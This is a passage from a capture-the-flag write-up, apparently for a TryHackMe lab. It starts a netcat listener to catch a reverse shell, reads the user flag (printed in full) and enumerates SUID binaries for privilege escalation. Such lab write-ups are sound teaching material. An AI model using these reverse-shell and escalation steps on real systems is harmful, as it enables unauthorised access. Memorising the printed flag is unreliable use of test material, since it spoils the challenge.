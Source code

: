 Start the `Netcat Listener`

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Then send the request and back to the `Netcat Listener`

![Untitled](Glitch_images/Untitled%206.png)

Locate the file `user.txt` → Get the flag

```tsx
$ find / -name "user.txt" 2>/dev/null
/home/user/user.txt
$ cat /home/user/user.txt
THM{i_don't_know_why}
```

# Privilege Escalation → v0id

Find the `SUID` files

```tsx
$ find / -perm -04000 2>/dev/null | grep "bin"
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/doas
```
